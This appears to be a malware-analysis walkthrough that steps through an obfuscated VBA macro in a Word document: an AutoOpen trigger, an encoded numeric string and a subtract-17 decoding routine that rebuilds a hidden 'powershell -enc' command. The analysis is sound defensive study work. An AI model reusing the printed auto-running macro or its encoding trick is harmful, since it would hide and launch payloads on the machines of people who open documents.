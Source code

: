 There's a lot going on here but there's a few interesting things we can notice:

1. Upon the Word document opening the function `Tragedy` is called.

```vbscript
Sub AutoOpen()
    Tragedy
End Sub
```

1. Tragedy sets up a string called `Apples` and passes it to a function called `Nuts()`.

```vbscript
Function Tragedy()
[...]
    Apples = "129128136118131132121118125125049062118127116049091088107132106104116074090126107132106104117072095123095124106067094069094126094139094085086070095139116067096088106065107085098066096088099121094101091126095123086069106126095074090120078078"
    Water = Nuts(Apples)
[...]
End Function
```

1. The `Nuts()` function enters a loop while the `Len(Milk) > 0` and passes the input `Milk` along to a set of nested function calls to `Strawberries()` and that output is then passed to `Pears()` setting the result to `OatMilk`. Milk is also passed along to a function called `Almonds()` on each iteration and the result of this function call is set to the value `Milk`. When the function exits, it returns the value of `OatMilk`.

```vbscript
Function Nuts(Milk)
    Do
    OatMilk = OatMilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = OatMilk
End Function
```

1. Following the programs logic flow, let's look at the `Strawberries(Milk)` call. The `Strawberries()` function takes a single argument, `Grapes`, and returns _the 3 leftmost characters_ of the `Grapes` input string. So, if you call Strawberries("My_Example_String"), it will return the first 3 characters of the input string, which are "My_".

```vbscript
Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function
```

1. Now let's step into the `Pear()` function and see how the input is being modified...

```vbscript
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function
```

---